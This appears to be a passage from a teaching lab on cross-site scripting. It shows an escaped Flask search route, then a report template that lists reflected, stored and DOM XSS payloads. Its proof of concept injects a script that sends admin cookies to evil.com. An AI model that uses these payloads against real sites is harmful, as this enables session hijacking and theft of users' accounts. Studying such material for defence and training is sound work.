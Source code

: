 #### After (Secure)
```python
import html

@app.route('/search')
def search():
    query = request.args.get('q', '')
    safe_query = html.escape(query)  # Properly escaped
    return f'<h1>Results for: {safe_query}</h1>'
```

## 📊 Lab Report Template

### Executive Summary
- **Vulnerability Type**: Cross-Site Scripting (XSS)
- **Risk Level**: High
- **Affected Components**: [List vulnerable endpoints]
- **Business Impact**: [Describe potential damage]

### Technical Findings

#### Reflected XSS
- **Location**: `/search?q=PAYLOAD`
- **Payload**: `<script>alert('XSS')</script>`
- **Impact**: Immediate script execution

#### Stored XSS
- **Location**: Comment system
- **Payload**: `<img src=x onerror=alert('XSS')>`
- **Impact**: Persistent compromise affecting all users

#### DOM XSS
- **Location**: Message center URL fragment processing
- **Payload**: `#msg=<script>alert('XSS')</script>`
- **Impact**: Client-side execution bypass

### Proof of Concept
```html
<!-- Working exploit for comment system -->
Name: Attacker
Comment: <script>
  // Steal admin cookies
  if(document.cookie.includes('admin')) {
    document.location='http://evil.com/steal?'+document.cookie;
  }
</script>
```

### Risk Assessment
- **Confidentiality**: High - Session hijacking possible
- **Integrity**: High - Content manipulation possible  
- **Availability**: Medium - DoS through malicious scripts
